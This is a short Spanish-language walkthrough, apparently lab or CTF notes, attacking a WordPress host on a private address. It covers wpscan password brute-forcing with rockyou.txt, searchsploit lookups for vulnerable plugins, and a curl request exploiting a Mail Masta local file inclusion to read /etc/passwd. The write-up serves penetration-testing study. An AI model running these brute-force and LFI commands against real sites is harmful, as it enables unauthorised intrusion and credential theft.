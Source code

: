 ## Fuerza bruta utilizando wpscan
```
wpscan -U admin -P /usr/share/wordlist/rockyou.txt --url http://10.0.2.8/wp-login.php
```

## Explotación de plugins
```
wpscan --url http://10.0.2.8/
```
![[Pasted image 20250701213227.png]]
Vamos a buscar exploits asociados con los plugins
```
searchsploit wordpress site editor
searchsploit wordpress mail masta
```
![[Pasted image 20250701213524.png]]
Examinaremos el exploit de texto del plugin mail masta:
```
searchsploit -x 40290
```
![[Pasted image 20250701214141.png]]
El LFI lo aconteceremos de la siguiente forma:
```
curl -s -X GET "http://10.0.2.8/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd"
```
Podemos explotar el LFI de una forma similar con el plugin site editor

